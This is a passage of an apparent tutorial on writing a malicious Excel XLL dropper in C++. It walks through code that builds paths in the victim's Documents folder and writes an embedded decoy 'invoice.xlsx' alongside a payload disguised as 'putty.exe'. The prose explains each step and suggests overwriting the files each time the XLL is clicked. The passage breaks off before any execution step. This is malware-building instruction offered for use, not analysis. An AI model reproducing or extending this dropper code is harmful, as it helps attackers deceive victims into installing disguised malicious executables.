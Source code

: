 Also dont forget to include resource.h header file


```
char excel_file_path[MAX_PATH];
    const char* excel_file_name = "\\invoice.xlsx";
    char my_documents[MAX_PATH];
    HRESULT result = SHGetFolderPathA(NULL, CSIDL_PERSONAL, NULL, SHGFP_TYPE_CURRENT, my_documents);

    strcpy_s(excel_file_path, my_documents);
    strcat_s(excel_file_path, excel_file_name);
```

So if you understand c++ you notice that we create 3 variables one to store the name of the excel file one to store the full path of the excel file and the third and last one to store the document folder path
After we are done we use strcpy_s to copy the document path to the excel_file_path variable and then we copy the excel file name to the excel_file_path using the function strcat_s
The reason we did not append the excel file name to the document path variable because we will use the same directory twice one for the excel file and the second for the payload file and do to not use the same function SHGetFolderPathA twice we create the third variable

```
    char payload_file_path[MAX_PATH];
    const char* payload_file_name = "\\putty.exe";

    strcpy_s(payload_file_path, my_documents);
    strcat_s(payload_file_path, payload_file_name);
```

So here is the trick we did what we did in the code above we created two other variables for the payload and we copied the document path to the payload path and appended the payload file name to the full payload path

so we can now write the both files excel file and payload file to the disk

```
    HANDLE hXllFile = CreateFileA(excel_file_path, GENERIC_WRITE, NULL, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);

    WriteFile(hXllFile, Excel, excelSize, 0, 0);
    CloseHandle(hXllFile);


    HANDLE hPayloadFile = CreateFileA(payload_file_path, GENERIC_WRITE, NULL, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);

    WriteFile(hPayloadFile, Payload, PayloadSize, 0, 0);

    CloseHandle(hPayloadFile);
```

We used the function CreateFileA and passed the path excel excel_file_path in the parameter 1 to make sure in parameter 2 you pass GENERIC_WRITE so you can get permission to write files third and fourth parameters NULL the 6 CREATE_ALWAYS so every time the xll file is clicked the dropper will delete the old one and write new data here its up to you , you can change CREATE_ALWYAS to OPEN_ALWAYS which will create the file if not exist but if the file exists will not replace old with a new file
parameter 7 this cannot be changed and should be FILE_ATTRIBUTE_NORMAL
